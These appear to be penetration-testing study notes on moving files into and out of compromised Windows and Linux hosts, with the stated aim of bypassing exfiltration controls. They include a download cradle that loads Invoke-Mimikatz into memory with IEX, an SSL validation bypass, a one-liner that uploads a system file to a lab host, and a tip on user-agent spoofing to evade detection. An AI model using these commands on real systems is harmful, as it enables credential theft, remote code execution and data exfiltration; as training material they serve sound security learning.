 	Many data ex filtration techniques may be blocked, we need to find ways to bypass these.
## Windows File Transfers
*Fileless* means that the attack doesn't come in an external file and instead uses tools built into windows already.

![[fig1a-astaroth-attack-chain.webp]]

We can use base64 to directly copy over contents of a file if not too big.
Command line has a max character string of 8194 characters so  may not be possible.

#### Powershell Download Methods
|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
Downloadstring can be piped into iex with 
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

list of power shell download cradles can be found here 
https://gist.github.com/HarmJ0y/bb48307ffa663256e239

May need to bypass SSL with 
```powershell-session
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads
Server Message Block that runs on port 445 is common in enterprise networks where windows services are running. 

We can create a smb server with impacket's smbserver
```
impacket-smbserver
```
with this we can mount the server with a username/password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

### FTP 
We can create a ftp server with 
```
python3 -m pyftpdlib
```

and transfer files with powershell's 
```powershell-session
S C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


### Powershell web Uploads
There is no curl command on PS it is only an alias for IEX 
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### WebDav
We can create our own smbserver with WebDav


## Linux
Wget and curl 

We can do fileless operations with pipes |  

Web uploads with curl and -x POST

Create self signed certs with openssl 
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```


## Downloading with code
#### Python
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP 
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### RUBY
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### JS
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

## Miscellaneous
Encryption on linux with openssl

HTTPS/HTTP most common allowed through firewalls. python3 upload server POST

## LOTL
Lolbins  are binaries that an attacker can use to preform actions beyond their original purposes. 

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

LOLBAS - Windows
https://lolbas-project.github.io/#
GTFOBINS - Linux 
https://gtfobins.github.io/

## Detection
Command line detection based off whitelists is extremely time consuming but robust.
Filter by legitimate user agent strings.

## Evading Detection
If administrators have blacklisted any user agents Invoke-WebRequest contains a useragent parameter which allows for changing the default user agent to a new one to emulate IE, Chrome, Firefox
